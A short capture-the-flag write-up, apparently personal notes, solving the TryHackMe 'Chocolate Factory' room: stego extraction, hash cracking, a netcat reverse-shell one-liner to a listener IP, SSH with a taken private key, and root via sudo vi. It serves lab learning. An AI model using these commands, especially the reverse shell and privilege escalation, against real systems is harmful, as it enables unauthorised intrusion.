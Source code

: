#elf 

https://tryhackme.com/r/room/chocolatefactory

---
#### Nmap
![[Screenshot_2024-06-01_21-25-42.png]]
Wonderful

On the ftp I found an image `gum_room.jpg` and I could extract a `b64.txt` file in it:
```shell
steghide extract -sf gum_room.jpg
```

In this file, there was a base64 encoded string which gave me the `/etc/passwd` file of the server with the username `charlie` and a hash I cracked using hashcat:
```shell
hashcat -a 0 -m 1800 -O hash /usr/share/wordlists/rockyou.txt
```

It gave me the password `cn7824`, did not work through ssh but it worked for the login page on port `80`.
This leaded me to a page with a console command so I putted my reverse shell:
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.79.56 9001 >/tmp/f
```

And here I am in

I download the private key `/home/charlie/teleport` and I used it to connect by ssh after setting the correct permissions to `600`:
```shell
ssh charlie@10.10.249.187 -i teleport
```

And here I am in as Charlie

There are 2 interresting places
```text
/etc/init.d/ports.sh  
/etc/init.d/chocolate.txt
```

And another interresting `ELF` file:
```text
/var/www/html/key_rev_key
```

Ok so I downloaded the `key_rev_key` file and I executed it. It asked me for a name so I used `strings` to watch in the file
```shell
strings key_rev_key
```
And it gave me the key
![[Screenshot_2024-06-01_22-34-20.png]]

Then I finally decided to `sudo -l` and I had sudo permission on `vi`, it's an easy escalation to root with `:shell`

And here I am root, I just had to put the key `b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='` in the python file on `/root`

